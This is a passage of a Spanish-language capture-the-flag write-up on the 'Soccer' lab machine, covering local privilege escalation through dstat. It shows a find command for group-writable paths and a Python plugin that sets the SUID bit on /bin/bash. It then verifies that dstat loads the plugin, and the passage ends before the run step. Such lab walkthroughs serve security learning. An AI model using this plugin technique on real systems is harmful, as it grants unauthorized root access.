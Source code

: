 Vemos un **/usr/share/dstat** que almacena los archivos de python, los cuales son plugins, pero sobre ese no tenemos permisos de escritura. Buscamos ahora por un archivo **dstat** que tenga como grupo **player**

```
player@soccer:~$ find / -group player 2>/dev/null | grep "dstat"
/usr/local/share/dstat
/proc/4931/task/4931/schedstat
/proc/4931/schedstat
/proc/5042/task/5042/schedstat
/proc/5042/schedstat
/proc/5066/task/5066/schedstat
/proc/5066/schedstat
/proc/5067/task/5067/schedstat
/proc/5067/schedstat
/proc/5356/task/5356/schedstat
/proc/5356/schedstat
/proc/5357/task/5357/schedstat
/proc/5357/schedstat
```
El primero llama la atención ya que, acá también podemos almacenar plugins del comando. Así que crearemos un script en python que nos otorgue SUID a la bash

`Nota:` Tenemos que llamar al script utilizando la misma manera en que se almacenan los otros plugins en la otra ruta, es decir: dstat_nombrescript.py

```python
#!/usr/bin/python3

import os

os.system("chmod u+s /bin/bash")
```
Una vez creado, verificamos si el comando lo almacena

```
player@soccer:/usr/local/share/dstat$ dstat --list
internal:
	aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,mem,mem-adv,net,page,
	page24,proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,zones
/usr/share/dstat:
	battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,disk-util,disk-wait,dstat,
	dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,helloworld,ib,innodb-buffer,innodb-io,innodb-ops,
	jvm-full,jvm-vm,lustre,md-status,memcache-hits,mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,
	mysql-io,mysql-keys,mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,
	net-packets,nfs3,nfs3-ops,nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,qmail,redis,rpc,rpcd,
	sendmail,snmp-cpu,snmp-load,snmp-mem,snmp-net,snmp-net-err,snmp-sys,snooze,squid,test,thermal,top-bio,top-bio-adv,
	top-childwait,top-cpu,top-cpu-adv,top-cputime,top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,
	top-mem,top-oom,utmp,vm-cpu,vm-mem,vm-mem-adv,vmk-hba,vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,
	zfs-zil
/usr/local/share/dstat:
	script
```
Vemos que sí, así que sólo procedemos a ejecturalo de la siguiente forma
